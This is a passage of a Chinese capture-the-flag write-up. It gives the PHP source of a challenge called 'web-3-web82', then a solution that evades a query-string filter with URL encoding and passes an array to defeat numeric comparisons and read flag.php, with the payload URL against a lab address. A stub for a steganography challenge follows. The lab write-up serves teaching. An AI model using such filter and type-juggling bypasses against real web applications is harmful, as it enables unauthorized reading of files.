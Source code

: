 # 5.web-3-web82

172.19.0.101:8007

题目： web-3-web82

难度： 中级

内容： 绕过A_A，本题端口为8007

代码审计如下


```php
<?php
highlight_file(__FILE__);
ini_set("display_error", false); 
error_reporting(0); 
$str = isset($_GET['A_A'])?$_GET['A_A']:'A_A';
if (strpos($_SERVER['QUERY_STRING'], "A_A") !==false) {
    echo 'A_A,have fun';
}
elseif ($str<9999999999) {
    echo 'A_A,too small';
}
elseif ((string)$str>0) {
    echo 'A_A,too big';
}
else{
    echo file_get_contents('flag.php');
    
}

?>
A_A,too small
```
![](file:///C:/Users/asus/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)
采用url编码绕过A_A识别，最后采用数组绕过比较

[http://172.19.0.101:8007/?%41%5f%41[]=1](http://172.19.0.101:8007/?%41%5f%41%5b%5d=1)

# 6.misc_Pirate king steganography

难度： 初级

内容： 这里有很多海贼王的照片，挑一张看看吧

如图，这很难评
![[Pasted image 20240731124156.png]]

# 7. misc31
